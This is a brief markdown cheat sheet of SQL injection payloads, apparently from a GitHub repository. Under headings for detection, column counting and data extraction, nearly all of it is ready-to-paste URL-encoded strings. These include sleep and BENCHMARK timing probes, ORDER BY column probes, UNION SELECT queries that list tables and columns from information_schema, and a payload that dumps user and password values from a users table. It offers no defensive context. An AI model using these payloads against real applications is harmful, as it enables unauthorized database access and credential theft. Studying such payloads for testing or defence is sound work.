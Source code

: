 SQL Injection BLIND
===================

Detection
---------
```sql
'+and+sleep(5)--%20
'+AND+BENCHMARK(100,SHA1(1337))--%20
'+AND+(SELECT+4057+FROM+(SELECT(SLEEP(5)))rYrD)--%20

Find Number of Columns
----------------------
```sql
# Monitor Responses for Differences. 
# Order by "1" should show a valid response, increase value until a different response is returned. 
'+order+by+1--%20
'+order+by+1000--%20
```

Get Table Names
------------
```sql
'+union+all+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--%20
```

Get Column Names
----------------
```sql
1'+union+all+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database()--%20
```

Get Data from Columns
---------------------
```sql
'+union+all+select+1,group_concat(<columnName1>,<columnName2)+from+users--%20
'+union+all+select+1,group_concat(user,password)+from+users--%20
```

